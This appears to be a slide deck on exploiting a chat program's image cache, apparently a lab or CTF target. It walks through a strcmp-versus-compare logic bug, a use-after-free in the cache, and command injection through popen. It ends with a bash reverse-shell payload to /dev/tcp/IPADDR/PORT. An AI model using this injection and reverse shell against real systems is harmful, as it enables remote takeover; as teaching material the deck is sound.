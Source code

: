 ## Vulnerability and Exploitation 
- Hongsik Kim (w/ VOM)

---

## New Features
1. Image File Cache
2. /r, /rpl Command

---

## Image File Cache
---?image=assets/image/origin.jpg&size=auto 50%

---?image=assets/image/cached.JPG&size=auto 50%

---

## /r Command
---?image=assets/image/reply.jpg&size=auto 70%

---

## Vulnerabilities
- Logical |
    - Difference between strcmp and compare |

- Memory |
    - Use After Free |
    - Command Injection |

---

### poc.cc

```C++
using namespace std;

int main(){
    char buf[100] = "abcd\x00efg";
    string s1 = string(buf, 8);
    string s2 = string(buf);
    
    if (!strcmp(s1.c_str(), s2.c_str()))
        cout << "strcmp equal!!" << endl;

    if (!s1.compare(s2))
        cout << "compare equal!!" << endl;
}
```

@[9](Executed)

---

### Utils/Cache.cc

```C++
#include "Cache.hh"

namespace Cache {
    Cache::Cache() {
        count = 0;
    }
    Cache::~Cache() {
    }
    
    Element* Cache::find(string url) {
        for (auto it = data.begin(); it != data.end(); ++it) {
            if (!strcmp(url.c_str(), (*it).first.c_str()))
                return (*it).second;
        }
        return NULL;
    }


    void Cache::insert(string url, string sender, string path) {
        if (this->is_full())
            return;
        Element* elem = new Element(path, sender);
        data.push_back(make_pair(url, elem));
        count++;
    }

    Element* Cache::remove(string url) {
        auto elem = this->find(url);
        if (elem){
            for (auto it = data.begin(); it != data.end(); ++it) {
                if (!url.compare((*it).first)) {
                    it = data.erase(it);
                    return elem;
                }
            }
        }
        return elem;
    }

    void Cache::update(string url) {
        auto elem = this->remove(url);
        if (elem) {
            data.push_back(make_pair(url, elem));
        }
    }

    void Cache::pop() {
        auto it = data.begin();
        ++it;
        delete (*it).second;
        data.erase(it);
        count--;
    }

    Element::Element(string _path, string _sender) {
        path = _path;
        sender = _sender;
    }
    Element::~Element() {
    }
    
    string Element::GetPath() {
        return path;
    }

    string Element::GetSender() {
        return sender;
    }
}
```

@[10-16](Cache::find)
@[12](Using strcmp)
@[27-38](Cache::remove)
@[31](Using String::compare)
@[40-45](Cache::update)
@[47-53](Cache::pop)
@[55-68](Element Class)

---

### OnionMessenger.cc

```C++
void OnionMessenger::HandleAArt(Message::ImgLayer *msg) {                      
    auto sender = msg->GetSender();                                            
    auto url = msg->GetUrl();                                                  
    auto elem = image_cache->find(url);                                        
    string path;                                                               
    if (!elem){		// Cache Miss                                                              
        provider->PushChat(sender, "\n" + \
            Features::DisplayAArt(url, path));
        if (image_cache->is_full()) {                                          
            image_cache->pop();                                                
        }                                                                      
        image_cache->insert(url, sender, path);                                
    } else {		// Cache Hit                                                               
        provider->PushChat(sender, "\n" + \
            Features::Asciiart(elem->GetPath().c_str()));
        image_cache->update(url);                                              
    }                                                                          
    snprintf(recent_user, MAX_ID_LEN, "%s", sender.c_str());                   
    delete msg;                                                                
}                                                
```

@[6-12](Cache Miss)
@[13-17](Cache Hit)

---

## Exploit Scenario

---
<!-- .slide: data-background-transition="none" -->
![](assets/image/process1.png)
@[](Handshake)
---
<!-- .slide: data-background-transition="none" -->
![](assets/image/process2.png)
@[](Heap spray)
---
<!-- .slide: data-background-transition="none" -->
![](assets/image/process3.png)
@[](Send a Image packet)
---
<!-- .slide: data-background-transition="none" -->
![](assets/image/process4.png)
@[](Concatination previous URL and NULL)
---
<!-- .slide: data-background-transition="none" -->
![](assets/image/process5.png)
@[](Make Cache Full. To trigger pop)
---
<!-- .slide: data-background-transition="none" -->
![](assets/image/process6.png)
@[](Overwrite string object of Element)
---
<!-- .slide: data-background-transition="none" -->
![](assets/image/process3.png)
@[](Trigger GetPath)
<!-- .slide: data-background-transition="none" -->

---

## Control GetPath
```C++
    } else {		// Cache Hit                                                               
        provider->PushChat(sender, "\n" + \
            Features::Asciiart(elem->GetPath().c_str()));
        image_cache->update(url);                                              
    }
```

@[3](with manipulated path)

---

### Utils/Features.cc
```C++
string Asciiart(const char *filepath) {                                        
    string path = "/root/bin/goasciiart " ;                                    
    //string path = "/bin/go/bin/goasciiart ";                                 
    string result= "";                                                         
    path.append(" -p ").append(filepath).append(" -w 80");                     
    char buf[1024];                                                            
    FILE *fp=NULL;                                                             
    cout << path << endl;                                                      
    fp=popen((char*)path.c_str(),"r");                                         
    if (fp) {                                                                  
        while ((fgets(buf,1024,fp)) != NULL) {                                 
            result.append(string(buf));                                        
        }                                                                      
        pclose(fp);                                                            
    }                                                                          
    return result;                                                             
}                                  
```
@[5, 9](Command Injection)

---                                                                          
### Get a shell!

```C++
popen("/root/bin/goasciiart –p \
    ;echo \"bash -i >& /dev/tcp/IPADDR/PORT 0>&1\"  | bash;\
    –w 80");
```

---

# Demo


